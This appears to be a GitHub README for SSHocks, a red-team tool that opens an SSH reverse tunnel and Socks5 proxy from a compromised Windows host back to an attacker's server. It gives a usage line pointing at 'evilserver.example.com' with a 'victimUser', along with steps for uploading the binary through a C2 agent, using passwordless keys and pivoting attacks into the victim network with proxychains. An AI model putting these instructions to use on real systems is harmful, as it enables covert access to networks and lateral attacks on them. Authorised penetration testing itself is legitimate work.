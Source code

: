 <h1>SSHocks v.1.0.0</h1>
                                       
SSHocks was born out of a penetration testing need. On a Red Team engagement, we need to get a Socks5 proxy up and fast. We originally had one working through an SSH tunnel using OpenSSH installed on a Windows 10 target. However, partway through our engagement, the client placed protections that stopped ssh.exe from functioning. I got to work and cobbled together this simple SSH client with full Socks5 support. I wanted it to be a single executable file so it was easy to upload. It's built targeting .NET 6.0. You can retarget as needed. This project can be published via *dotnet* as a single file.

-Example: *dotnet publish -c Release -r win-x64 --self-contained true -p:PublishSingleFile=true*

The latest release is confirmed to work on Windows 10 hosts. It has not yet been tested on other versions of Windows. (I just built it! Give me time man!) If you've tried it on something other than Windows 10, please let me know!

**USAGE:** SSHocks.exe [SSH server] [SSH Port] [username] [path to private key] [remote socks port]

(Ex. SSHocks.exe evilserver.example.com 2222 victimUser C:\Path\to\keyfile\id_ed25519 1080)

**NOTES:**

1. You will need to create the user account on your SSH server. Then, generate a keypair on your SSH server for your victim's user account. **DO NOT SET A PASSWORD ON THE KEY.** SSHocks supports both ed_25519 and RSA keys.

2. Upload the key and SSHocks.exe to the victim host using your C2 agent or whatever other means you might have for uploading sketchy stuff. **(At this time, SSHocks cannot be assembly loaded. I'm working on fixing that. Any assistance is appreciated!)**

3. Execute using your prefered binary execution method.

4. By default, the program will open port 1080 on the victim host as the receiving port for all Socks5 traffic. This can be changed in source as needed.
   
5. Once the client is connected to your attack SSH server and you've verified the proxy port is listening, you can use any proxy aware program or tool to attack the victim's network. Use Proxychains with non-proxy aware tools. Just make sure your proxychains.conf file is properly configured for the correct port and is using socks5.

6. **SHUT DOWN** Since the point was to use this via a C2 impant which is likely to not provide an interactive shell, I baked in a way to gracefully shut the proxy and tunnel down using a remote proxy command. Simply use proxychains or some other means to send:
  
   *curl xxx.xxx*
   
The proxy will receive the connection request and interpret it as a command to shutdown, and will disconnect gracefully.

<h2>To Do:</h2>
- Modify source to be able to be loaded using Assembly Reflection
